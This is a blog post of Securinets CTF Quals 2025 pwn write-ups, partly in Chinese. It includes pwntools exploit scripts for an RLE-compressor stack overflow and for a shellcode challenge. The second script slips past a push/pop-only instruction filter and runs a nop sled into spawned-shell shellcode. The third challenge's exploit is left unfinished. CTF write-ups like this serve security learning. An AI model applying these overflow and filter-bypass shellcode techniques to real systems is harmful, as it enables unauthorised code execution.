 ```yaml
---
title: "Write-ups: Securinets CTF Quals 2025"
published: 2025-10-04
updated: 2025-10-04
description: "Write-ups for Securinets CTF Quals 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# zip++

## Information

- Category: Pwn
- Points: 500

## Description

> why isn't my compressor compressing ?!

## Write-up

问 AI，得知 `compress` 函数实现了一个 `RLE (Run-Length Encoding)` 压缩算法，压缩后格式为 `[字节 1][重复次数 1][字节 2][重复次数 2]...`，因此如果我们输入交替字符就会导致压缩率很差，溢出返回地址。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./main"
HOST, PORT = "pwn-14caf623.p1.securinets.tn", 9000

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"AB" * 0xC6,
        b"\xa6" * 0x11,
    )
    raw_input("DEBUG")
    target.sendafter(b"data to compress :", payload)
    raw_input("DEBUG")
    target.sendline(b"exit")

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`Securinets{my_zip_doesnt_zip}`]

# push pull pops

## Information

- Category: Pwn
- Points: 500

## Description

> Shellcoding in the big 25 😱

## Write-up

有意思，第一次见 python 写的 pwn 题，这题只允许使用 `push`, `pop` 和 `int 3` 指令，但是测试发现非法指令会导致 capstone 直接返回 None，使得后面的指令不会被检查，那我们只要栈迁移到 mmap 出来的地方，然后 nop sled 到 shellcode 就好了。

祭出指令表：[X86 Opcode and Instruction Reference Home](http://ref.x86asm.net/coder64.html)

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    asm,
    b64e,
    context,
    disasm,
    flat,
    process,
    raw_input,
    remote,
    shellcraft,
)


FILE = "./main.py"
HOST, PORT = "pwn-14caf623.p1.securinets.tn", 9001

# context(log_level="debug", binary=FILE, terminal="kitty")
context(log_level="debug", terminal="kitty", arch="amd64")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(["python3", FILE])
        # gdb.attach(target, gdbscript=gdbscript)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload_1 = asm(
        """
        push r11
        pop rsp
        pop r15
        pop r15
        pop r15
        pop r15
        push r15
        push r15
        push r15
        """
    )

    payload_2 = b"\x06" + b"\x90" * 0x10 + asm("add rsp, 0x100") + asm(shellcraft.sh())
    target.success(disasm(payload_1))
    target.success(disasm(asm("add rsp, 0x100")))
    target.success(disasm(asm(shellcraft.sh())))
    raw_input("DEBUG")
    target.sendafter(b"Shellcode : ", b64e(payload_1 + payload_2))

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`Securinets{push_pop_to_hero}`]

# push pull pops REVENGE

## Information

- Category: Pwn
- Points: 500

## Description

> you aint getting away with it , not on my watch .

## Write-up

这次题目加了输入和解码出来的指令之间的长度检测：

```python
if code_len != decoded:
    print("nice try")
    return False
```

那就把非法指令 ban 掉了，测试使用 semantically equivalent encodings 也没啥用，绕不开这个长度检测。

最后思路是自己构造一个 syscall，然后调用 read，这样就可以把 shellcode 读进去，不被过滤。

但是但是，我没做出来 :sob: 所以等有时间了再去复现一下吧，得学习一下怎么自己构造 syscall……

## Exploit

TODO

## Flag

复现。
